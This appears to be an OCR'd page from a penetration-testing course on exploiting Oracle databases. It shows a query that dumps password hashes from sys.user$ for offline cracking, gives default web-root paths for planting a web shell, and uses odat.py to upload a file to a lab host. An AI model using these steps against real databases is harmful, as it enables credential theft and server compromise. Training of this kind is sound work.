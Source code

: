 ```
USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            DELETE_CATALOG_ROLE            YES YES NO
SYS                            EXECUTE_CATALOG_ROLE           YES YES NO
...SNIP...
```

We can follow many approaches once we get access to an Oracle database. It highly depends on the information we have and the entire setup. However, we can not add new users or make any modifications. From this point, we could retrieve the password hashes from the `sys.user$` and try to crack them offline. The query for this would look like the following:

### **Oracle RDBMS - Extract Password Hashes**

```
SQL> select name, password from sys.user$;NAME                           PASSWORD
------------------------------ ------------------------------
SYS                            FBA343E7D6C8BC9D
PUBLIC
CONNECT
RESOURCE
DBA
SYSTEM                         B5073FE1DE351687
SELECT_CATALOG_ROLE
EXECUTE_CATALOG_ROLE
DELETE_CATALOG_ROLE
OUTLN                          4A3BA55E08595C81
EXP_FULL_DATABASE

NAME                           PASSWORD
------------------------------ ------------------------------
IMP_FULL_DATABASE
LOGSTDBY_ADMINISTRATOR
...SNIP...
```

Another option is to upload a web shell to the target. However, this requires the server to run a web server, and we need to know the exact location of the root directory for the webserver. Nevertheless, if we know what type of system we are dealing with, we can try the default paths, which are:

| **OS** | **Path** |
| --- | --- |
| Linux | `/var/www/html` |
| Windows | `C:\inetpub\wwwroot` |

First, trying our exploitation approach with files that do not look dangerous for Antivirus or Intrusion detection/prevention systems is always important. Therefore, we create a text file with a string and use it to upload to the target system.

### **Oracle RDBMS - File Upload**

```
th1nyunb0y@htb[/htb]$ echo "Oracle File Upload Test" > testing.txtth1nyunb0y@htb[/htb]$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt[1] (10.129.204.235:1521): Put the ./testing.txt local file in the C:\inetpub\wwwroot folder like testing.txt on the 10.129.204.235 server
[+] The ./testing.txt file was created on the C:\inetpub\wwwroot directory on the 10.129.204.235 server like the testing.txt file
```

Finally, we can test if the file upload approach worked with `curl`. Therefore, we will use a `GET http://<IP>` request, or we can visit via browser.

```
th1nyunb0y@htb[/htb]$ curl -X GET http://10.129.204.235/testing.txtOracle File Upload Test
```